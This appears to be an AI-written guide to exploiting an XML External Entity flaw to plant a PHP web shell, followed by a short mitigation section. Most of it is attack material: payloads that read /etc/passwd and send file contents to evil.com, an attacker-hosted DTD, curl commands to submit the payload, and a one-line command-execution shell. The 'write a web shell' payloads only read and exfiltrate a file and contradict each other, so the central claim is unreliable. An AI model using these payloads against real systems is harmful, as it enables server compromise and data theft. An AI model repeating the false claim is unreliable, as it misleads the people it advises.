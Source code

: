 Creating a remote shell using an XXE (XML External Entity) vulnerability typically involves exploiting the ability to read or write files on the server. Here’s a step-by-step guide to exploiting an XXE vulnerability to deploy a web shell:

### Step-by-Step Exploit to Deploy a Web Shell

#### 1. Identify the XXE Vulnerability

First, test if the application is vulnerable by sending XML data that attempts to access a local file or an external entity.

#### 2. Craft a Malicious XML Payload

Create an XML payload that attempts to read or write files on the server. For deploying a web shell, you need the server to write a file into the web directory.

### Example Payloads

#### Basic XXE Payload to Read Local Files

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<foo>&xxe;</foo>
```

#### XXE Payload to Send File Contents to a Remote Server

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "http://evil.com/?data=file:///etc/passwd" >
]>
<foo>&xxe;</foo>
```

#### XXE Payload to Write a Web Shell

If the server is configured to allow the writing of files, you can attempt to write a web shell to the server’s web directory. Here is an example of doing that in a PHP environment.

### External DTD to Write a Web Shell

Create an external DTD file (`external.dtd`) hosted on a server you control. This DTD will write a simple PHP web shell to the server.

#### `external.dtd` Content

```xml
<!ENTITY % file SYSTEM "file:///var/www/html/shell.php">
<!ENTITY % eval "<!ENTITY &#37; exfil SYSTEM 'http://evil.com/?content=%file;'>">
%eval;
%exfil;
```

### Malicious XML Payload to Trigger the DTD

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ENTITY % dtd SYSTEM "http://evil.com/external.dtd">
  %dtd;
]>
<foo>&exfil;</foo>
```

### Steps to Deploy the Web Shell

1. **Host the DTD File**: Host the `external.dtd` on a server you control (e.g., `http://evil.com/external.dtd`).

2. **Send the Malicious XML Payload**: Send the malicious XML payload to the vulnerable application. Use a tool like `curl` to send the payload:

   ```bash
   curl -X POST -d @payload.xml http://example.com/upload
   ```

3. **Access the Web Shell**: Once the web shell is written to the server, you can access it via a web browser and execute commands. For example, navigate to:

   ```http
   http://example.com/shell.php?cmd=whoami
   ```

### Example Web Shell in PHP

The PHP web shell allows executing commands on the server:

```php
<?php system($_GET['cmd']); ?>
```

### Practical Example

1. **Craft the Payload to Write the Web Shell**:

   `payload.xml`:

   ```xml
   <?xml version="1.0" encoding="ISO-8859-1"?>
   <!DOCTYPE foo [
     <!ENTITY % dtd SYSTEM "http://evil.com/external.dtd">
     %dtd;
   ]>
   <foo>&exfil;</foo>
   ```

2. **Host the DTD File**:

   `external.dtd`:

   ```xml
   <!ENTITY % file "<!ENTITY exfil SYSTEM 'file:///var/www/html/shell.php'>">
   ```

3. **Send the Malicious XML Payload**:

   ```bash
   curl -X POST -d @payload.xml http://example.com/upload
   ```

4. **Access the Web Shell**:

   ```http
   http://example.com/shell.php?cmd=whoami
   ```

### Mitigation Strategies

1. **Disable External Entities**:
   - Configure your XML parser to disable external entities.

2. **Use Secure Parsers**:
   - Use libraries and parsers that are configured securely by default.

3. **Input Validation**:
   - Validate and sanitize all user inputs, including XML.

4. **Patch and Update**:
   - Keep your software and libraries updated with the latest security patches.

### Example Mitigation in Java

If you're using Java, disable external entities:

```java
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
dbf.setFeature("http://xml.org/sax/features/external-general-entities", false);
dbf.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
dbf.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
```

### Conclusion

XXE vulnerabilities can be exploited to deploy a remote web shell if the server processes external entities and allows file operations. Proper input validation, disabling external entities, and keeping software up-to-date are crucial steps to prevent these vulnerabilities. Always test and validate the security of your XML parsing logic.
